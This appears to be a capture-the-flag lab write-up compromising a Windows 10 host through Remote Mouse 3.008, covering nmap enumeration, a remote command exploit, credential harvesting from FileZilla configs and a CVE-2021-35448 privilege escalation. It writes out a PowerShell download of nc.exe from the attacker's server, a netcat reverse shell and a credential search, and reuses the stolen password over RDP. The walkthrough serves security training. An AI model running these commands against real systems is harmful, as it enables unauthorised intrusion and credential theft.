






## NMAP

A comprehensive Nmap scan was performed with elevated privileges. The scan was configured to bypass host discovery with the -Pn flag, treating the host as online. It conducted a full port scan from 1 to 65535, reporting only open ports. The -sV flag enabled service version detection, while -sC executed default NSE scripts for additional enumeration. The -O flag enabled OS fingerprinting. This command provides a detailed assessment of all available services, versions, potential vulnerabilities, and the host operating system on the target IP 192.168.241.199.

```bash
sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.241.199   --open 
```

The scan results indicate the target host is a Windows 10 system named REMOTE-PC. Key services identified include an open Remote Desktop Protocol service on port 3389, confirming the host as a Windows terminal server. Three additional open ports were discovered: port 1978 running 'remotemouse' software, and ports 1979 and 1980 hosting unidentified services labeled 'unisql-java?' and 'pearldoc-xact?'. The system's NTLM information reveals it is running Windows 10 version 19041. The SSL certificate for RDP is valid, and the host's time is synchronized. The scan suggests potential attack vectors via the RDP service and the three unknown services on ports 1978-1980, which require further investigation for vulnerabilities.

```bash
sudo] password for kali: 
Starting Nmap 7.95SVN ( https://nmap.org ) at 2025-12-28 00:19 UTC
Nmap scan report for 192.168.241.199
Host is up (0.0089s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE        VERSION
1978/tcp open  remotemouse    Emote Remote Mouse
1979/tcp open  unisql-java?
1980/tcp open  pearldoc-xact?
3389/tcp open  ms-wbt-server  Microsoft Terminal Services
| ssl-cert: Subject: commonName=Remote-PC
| Not valid before: 2025-12-02T17:03:21
|_Not valid after:  2026-06-03T17:03:21
| rdp-ntlm-info: 
|   Target_Name: REMOTE-PC
|   NetBIOS_Domain_Name: REMOTE-PC
|   NetBIOS_Computer_Name: REMOTE-PC
|   DNS_Domain_Name: Remote-PC
|   DNS_Computer_Name: Remote-PC
|   Product_Version: 10.0.19041
|_  System_Time: 2025-12-28T00:24:22+00:00
|_ssl-date: 2025-12-28T00:24:50+00:00; 0s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10 (92%)
OS CPE: cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (92%), Microsoft Windows 10 1909 - 2004 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 296.72 seconds


```

A Python HTTP server was started on port 80 to host files for transfer. The log entry confirms a successful incoming connection from the target host at 192.168.241.199, which downloaded the file 'nc.exe'. This indicates the target machine initiated an HTTP request to the attacker's server, likely as part of a payload delivery or tool transfer, and successfully retrieved the Netcat executable.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.241.199 - - [28/Dec/2025 01:04:55] "GET /nc.exe HTTP/1.1" 200 -
```

The exploit script for RemoteMouse version 3.008 was executed against the target host 192.168.241.199. The command sent via the exploit leveraged PowerShell to download the Netcat executable from the attacker's web server at 192.168.45.193 and save it to the Windows Temp directory on the target. This action confirms successful exploitation of the RemoteMouse service on port 1978, resulting in arbitrary command execution.

```bash
python3 RemoteMouse-3.008-Exploit.py -t 192.168.241.199 --cmd 'powershell -c "Invoke-WebRequest -Uri http://192.168.45.193/nc.exe -OutFile C:\Windows\Temp\nc.exe"'
```

The RemoteMouse exploit was executed a second time against the target host 192.168.241.199. The command issued through the exploit instructed the target to run the previously downloaded Netcat executable from its Temp directory. Netcat was configured to create a reverse shell connection back to the attacker's IP address 192.168.45.193 on port 443, piping the command prompt. This action successfully established a remote command shell on the target, confirming full compromise and providing interactive access.

```bash
python3 RemoteMouse-3.008-Exploit.py -t 192.168.241.199 --cmd 'cmd /c C:\Windows\Temp\nc.exe 192.168.45.193 443 -e cmd.exe'

```

A Netcat listener was established on port 443. The target host 192.168.241.199 successfully connected back, providing a reverse shell. The session confirmed the compromised user context as 'remote-pc\divine' on a Windows 10 system. A user-level flag was retrieved from the user's Desktop directory, with the value 520e77026371bceafe0b4577311f9975, indicating successful initial access and local privilege establishment.

```bash
nc -lvp 443 
listening on [any] 443 ...
192.168.241.199: inverse host lookup failed: Unknown host
connect to [192.168.45.193] from (UNKNOWN) [192.168.241.199] 52728
Microsoft Windows [Version 10.0.19042.1348]
(c) Microsoft Corporation. All rights reserved.

C:\Users\divine>whoami
whoami
remote-pc\divine


C:\Users\divine\Desktop>type local.txt
type local.txt
520e77026371bceafe0b4577311f9975

```

The whoami /all command was executed on the compromised host to enumerate the current user's security context. The user 'divine' is a standard user with no administrative privileges. The account is a member of common groups including Users, Remote Desktop Users, and Authenticated Users. The token possesses only basic privileges such as SeChangeNotifyPrivilege, with no high-value privileges like SeDebugPrivilege or SeImpersonatePrivilege present. The integrity level is Medium. This output confirms the need for privilege escalation to achieve full system compromise.

```bash
C:\Users\divine\Desktop>whoami /all
whoami /all

USER INFORMATION
----------------

User Name        SID                                           
================ ==============================================
remote-pc\divine S-1-5-21-2619112490-2635448554-1147358759-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled


```

The findstr command was executed to recursively search for files containing the string "pass" within configuration file types. The search identified two FileZilla configuration files located in the user's AppData directory: filezilla.xml and recentservers.xml. These files are known to potentially store saved FTP server credentials, including usernames and passwords, in plaintext or encoded formats, presenting a credential harvesting opportunity.


```bash
C:\Users\divine>findstr /SIM /C:"pass" *.ini *.cfg *.config *.xml
findstr /SIM /C:"pass" *.ini *.cfg *.config *.xml
AppData\Roaming\FileZilla\filezilla.xml
AppData\Roaming\FileZilla\recentservers.xml

```

The contents of the recentservers.xml file were retrieved. The file contains saved FTP connection details for the server '[ftp.pg](https://ftp.pg/)'. It includes the username 'divine' and a password stored with base64 encoding. The encoded password value is 'Q29udHJvbEZyZWFrMTE=', which decodes to 'ControlFreak11'. These credentials represent a potential lateral movement or privilege escalation vector if reused across systems or services.

```bash
C:\Users\divine>type C:\Users\divine\AppData\Roaming\FileZilla\recentservers.xml
type C:\Users\divine\AppData\Roaming\FileZilla\recentservers.xml
<?xml version="1.0" encoding="UTF-8"?>
<FileZilla3 version="3.54.1" platform="windows">
        <RecentServers>
                <Server>
                        <Host>ftp.pg</Host>
                        <Port>21</Port>
                        <Protocol>0</Protocol>
                        <Type>0</Type>
                        <User>divine</User>
                        <Pass encoding="base64">Q29udHJvbEZyZWFrMTE=</Pass>
                        <Logontype>1</Logontype>
                        <PasvMode>MODE_DEFAULT</PasvMode>
                        <EncodingType>Auto</EncodingType>
                        <BypassProxy>0</BypassProxy>
                </Server>
        </RecentServers>
</FileZilla3>


```

The encoded password string 'Q29udHJvbEZyZWFrMTE=' from the FileZilla configuration was decoded using the base64 utility. The decoded plaintext password is 'ControlFreak11'. This confirms the credentials for the user 'divine' on the FTP server and provides a clear-text password for testing against other services or user accounts on the target network.

```bash
 echo 'Q29udHJvbEZyZWFrMTE=' | base64 -d
ControlFreak11   

```

The xfreerdp command was executed to initiate a Remote Desktop Protocol connection to the target host 192.168.241.199 using the credentials divine:ControlFreak11 obtained from the FileZilla configuration. The /f flag enabled fullscreen mode. This action tested for credential reuse, successfully establishing an authenticated graphical RDP session to the target machine, thereby confirming lateral movement and providing an alternate, persistent access method.

```bash
xfreerdp /v:192.168.241.199 /u:divine /p:ControlFreak11 /f

```

The file 'mice1.png' contains a text snippet resembling a Windows command prompt session. The output indicates a command error and displays partial directory paths, including 'C:\Users\Alc\Innovations' and 'C:\Users\Alc\Innovations1'. A string 'request-pv3d1f0106' is present, which may be a hostname, username, or identifier. The content appears to be a screenshot or copy of a command-line interaction, possibly from a different user session or system, and may contain useful contextual information for further enumeration.



The file 'mice2.png' contains documentation for CVE-2021-35448, a local privilege escalation vulnerability in Remote Mouse version 3.008. The exploit leverages a folder path selection dialog to spawn a command prompt with Administrator privileges by navigating to 'C:\Windows\System32\cmd.exe'. This vulnerability provides a direct path from a standard user session to SYSTEM-level access on the compromised host where the vulnerable software is installed and accessible.



The file 'mice3.png' contains apparent desktop interface elements and notes. Key references include a directory path 'C:\Users\Desktop\AppData', which is a non-standard and likely erroneous path. Text snippets such as "Ctrl+Shift" and "Type here to search" suggest it captures parts of a graphical user interface. The strings "4/7 Wrwd", "5/2/24", and "4/20/020" may be dates or codes. The content appears to be a fragment of a screenshot showing a desktop or file explorer window, potentially containing environment clues.




The file 'mice4.png' appears to contain a configuration interface for a remote access or mouse application, potentially "Remote Advocat" or a similar tool. The interface includes options for program behavior on Windows startup, failure notifications, and connection methods. A critical section titled "Password for Connection" is present, indicating the software may use a static or custom password for incoming connections. The "Image Transfer Folder" setting has a "Change" button, which is the actionable component exploited in CVE-2021-35448 for privilege escalation by navigating to a system binary.



The file 'mice5.png' depicts the "Save As" dialog from the Remote Mouse application, precisely as described in the CVE-2021-35448 exploit. The dialog shows the address bar navigated to 'C:\Windows\System32\cmd.exe'. The interface elements confirm the exploit's feasibility, where clicking "Save" or similar within this dialog while targeting a system executable will spawn that process with elevated privileges. This is the visual confirmation of the privilege escalation vector being actively leveraged.




The file 'mice6.png' displays a Windows command prompt with an elevated title bar stating "Administrator: C:\Windows\System32\cmd.exe". The session output shows the command 'whoami' was executed, returning 'nt authority\system'. This confirms the successful local privilege escalation to SYSTEM-level access on the compromised host. The user context 'C:\Users\dlyline>' appears to be a visual artifact or username display error, but the 'nt authority\system' result is definitive proof of the highest privilege attainment.




The final SYSTEM-level command shell accessed the Administrator's Desktop directory. The proof.txt file was read, revealing its contents as the string 0265bdf3e4e9a4b1699c45435c1ef96c. This string is the administrative or root flag, confirming the successful completion of the penetration test with full system compromise and privilege escalation to the highest level on the target host.

```bash
C:\Users\Administrator\Desktop>type proof.txt
0265bdf3e4e9a4b1699c45435c1ef96c

C:\Users\Administrator\Desktop>

```
